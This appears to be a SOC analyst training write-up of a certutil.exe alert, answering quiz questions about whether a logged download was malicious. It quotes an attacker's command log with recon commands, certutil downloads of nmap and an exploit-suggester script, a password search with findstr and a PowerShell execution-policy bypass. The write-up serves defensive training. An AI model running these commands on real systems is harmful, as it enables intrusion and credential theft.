 # Description
- EventID :`113`
- Event Time :`Mar, 01, 2022, 11:06 AM`
- Rule :`SOC163 - Suspicious Certutil.exe Usage`
- Level :Security Analyst
- Hostname :`EricProd`
- IP Address :`172.16.17.22`
- Related Binary :`certutil.exe`
- Binary Path :`C:/Windows/System32/certutil.exe`
- Command Line : `certutil.exe -urlcache -split -f https://nmap.org/dist/nmap-7.92-win32.zip nmap.zip`
- Alert Trigger Reason : `-f parameter with certutil.exe`
- EDR Action : Allowed

```
A LoLBin is any binary supplied by the operating system that is normally used for legitimate purposes but can also be abused by malicious actors. Several default system binaries have unexpected side effects, which may allow attackers to hide their activities post-exploitation.
(definition: talosintelligence.com)
```
```
Determine which binary is supplied by the operating system but is also home to suspicious activities. To do this, you can resort to the alert details on the Monitoring page or Endpoint Security.
```
Certutil.exe: Attackers encode a file using base64 and then use CertUtil to download it from a remote URL to the victim’s device
`certutil.exe -urlcache -split -f https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py check.py`

- Certutil.exe: https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil

```ps1
#01.03.2021 10:11
whoami
#01.03.2021 10:13
net user
#01.03.2021 10:16
net user
#01.03.2021 10:17
ipconfig
#01.03.2021 10:18
ipconfig /all
#01.03.2021 10:19
net Localgroup
#01.03.2021 10:22
net start
#01.03.2021 10:24
netstat
#301.03.2021 10:25
tasklist
#01.03.2021 10:27
systeminfo
#01.03.2021 11:06
certutil.exe -urlcache -split -f https://nmap.org/dist/nmap-7.92-setup.exe nmap.zip
#01.03.2021 11:07
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py check.py
#01.03.2021 11:08
nmap -sV 192.168.0.0/24 -p 80
#01.03.2021 11:27
python3 check.py
#01.03.2021 18:54
arp -a
#01.03.2021 19:32
findstr /si pass *.txt | *.xml| *.ini
#01.03.2021 21:36
C:/powershell.exe -nop -exec bypass
```
- Q1
```
Previously, you found the related binary. Now, we’d like you to determine whether it was used for malicious purposes. You can use the link below to determine how legal binary can be used to perform malicious activities.

LOLBAS Project
There are some characteristics common to command lines:

They often have a file-path or other artifact as one of the arguments, that changes based on the user environment or machine, such as usernames or system GUIDs in file paths.
The order of arguments in the command change, or a single argument has a slightly different value.
They can have randomly generated strings in embedded URLs or file paths.
They can be obfuscated on purpose by attackers (variable assignment, invocation of string expressions created on the fly, etc).
(list source: sophos.com)


Is the current activity suspicious?
```
- `yes`

![image](https://github.com/seiffawal/Let-s-defend_events/assets/83987697/50317ca9-8c76-45a6-aaee-b054b8f2f867)

`https://lolbas-project.github.io/`
## Q2
- Determine Suspicious Activity: `Yes, suspicious`
## Q3
Question: What Is Suspicious Activity?
```ps
#01.03.2021 11:06
certutil.exe -urlcache -split -f https://nmap.org/dist/nmap-7.92-setup.exe nmap.zip
#01.03.2021 11:07
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py check.py
```
`Download`
## Q4
Question: Who Performed the Activity?
after checking cmd log it know it's user
`User`
